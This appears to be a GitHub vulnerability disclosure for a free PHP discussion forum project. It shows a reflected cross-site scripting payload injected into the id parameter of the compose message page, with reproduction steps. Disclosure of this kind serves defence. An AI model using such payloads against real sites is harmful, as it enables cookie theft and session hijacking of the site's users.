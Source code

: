 # System-with-Cross-site-Scripting-XSS-

Vul_Author: WangTY-Sama

vendors: https://itsourcecode.com/free-projects/php-project/online-discussion-forum-project-in-php-with-source-code/

Vulnerability File: 

Vulnerability location: 

[+] Payload: "><sCrIpT>alert(document.cookie)</ScRiPt>

Tested on Windows 11, phpStudy

There is an example with alert:

When you enter the system, click the hyperlink next to "prof | Professional" and transfer to Compose Message page.
![alt text](P1.png)
You can see that the URl of Compose Message page is http://localhost/bcc_forum/members/compose_msg.php?id=71.
![alt text](P2.png)
We replace "71" with 
··· Java
"><sCrIpT>alert(document.cookie)</ScRiPt> 
···
![alt text](P3.png)
then press Enter, you will obtain its cookie.
![alt text](P4.png)
